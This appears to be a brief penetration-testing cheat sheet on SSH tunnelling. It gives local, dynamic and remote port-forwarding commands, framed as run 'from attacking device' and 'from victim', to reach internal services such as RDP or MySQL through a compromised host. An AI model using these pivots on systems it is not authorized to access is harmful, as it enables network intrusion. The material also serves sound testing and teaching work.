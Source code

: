 ### From Attacking Device

#### Connect to a port on another device

```bash
ssh -N -L 0.0.0.0:[local_port]:[target_ip]:[target_port] [user]@[target]
```

Example:

```bash
ssh -N -L 0.0.0.0:3389:10.1.1.10:3389 [user]@[target]
```

#### Connect to a port on target device

```bash
sudo ssh -N -L 0.0.0.0:[local_port]:127.0.0.1:[target_port] [user]@[target]
```

Example:

```bash
sudo ssh -N -L 0.0.0.0:3389:127.0.0.1:3389 [user]@[target]
```

Dynamic Port Forwarding:

```bash
sudo ssh -N -D 127.0.0.1:1080 [user]@[target]
```

### From Victim

This will open a new port on the attacking device from the target. If 3306 is open on the target but we don't have access to if we can forward this port over the ssh tunnel.

```bash
ssh -N -R [attacker_ip]:[local_port]:127.0.0.1:[target_port] [user]@[target]
```

Example

```bash
ssh -N -R 10.10.5.1:3389:127.0.0.1:3389 [user]@[target]
```